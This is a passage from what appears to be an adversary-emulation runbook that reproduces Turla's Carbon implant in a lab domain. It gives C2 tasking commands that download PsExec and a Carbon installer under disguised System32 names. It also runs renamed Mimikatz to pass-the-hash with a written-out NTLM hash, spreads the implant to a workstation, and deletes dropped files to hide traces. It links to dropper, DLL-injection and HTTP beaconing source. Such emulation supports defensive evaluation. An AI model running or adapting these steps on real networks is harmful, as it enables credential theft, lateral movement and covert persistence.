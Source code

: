 * Close any spurious windows

* Open up Edge, but don't browse to any website just yet. The browser process is needed for Carbon comms lib DLL injection to occur.

:arrow_right: Wait 1 minute and return to your Kali control server terminal

* Task the CARBON-DLL implant on the domain controller to download PsExec.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 4, "payload": "PsExec.exe", "payload_dest": "C:\\Windows\\Temp\\tmp5712.tmp", "cmd": "move C:\\Windows\\Temp\\tmp5712.tmp C:\\Windows\\System32\\wsqsp.exe && dir C:\\Windows\\System32\\wsqsp.exe"}'
```

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller
to download a third copy of the CARBON-DLL installer.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 5, "payload": "carbon_installer_3.exe", "payload_dest": "C:\\Windows\\Temp\\tmp1283.tmp", "cmd": "move C:\\Windows\\Temp\\tmp1283.tmp C:\\Windows\\System32\\wsqmanager.exe && dir C:\\Windows\\System32\\wsqmanager.exe"}'
```

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller
to use the previously downloaded Mimikatz to pass-the-hash and (1) copy the
installer to Adalwolfa's workstation and (2) execute it using PsExec.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 6, "cmd": "C:\\Windows\\System32\\terabox.exe \"pr::d\" \"slsa::htp /user:adalwolfa /domain:skt /ntlm:07d128430a6338f8d537f6b3ae1dc136 /remotepc:khabibulin /pexe:C:\\Windows\\System32\\wsqsp.exe /sys:1 /prun:C:\\Windows\\System32\\wsqmanager.exe\" \"quit\""}'
```

:heavy_exclamation_mark: Verify that a new Carbon implant has been registered with the control server.

* Wait 1 minute and then task the CARBON-DLL implant on the domain controller to clean up dropped files.

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 7, "cmd": "del /Q C:\\Windows\\System32\\terabox.exe C:\\Windows\\System32\\wsqsp.exe C:\\Windows\\System32\\wsqmanager.exe"}'
```

### :moyai: Source Code

* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
  * [Peer to peer communications over named pipes](../../Resources/Carbon/CommLib/src/NamedPipeP2p.cpp)
* [Mimikatz](../../Resources/Mimikatz)
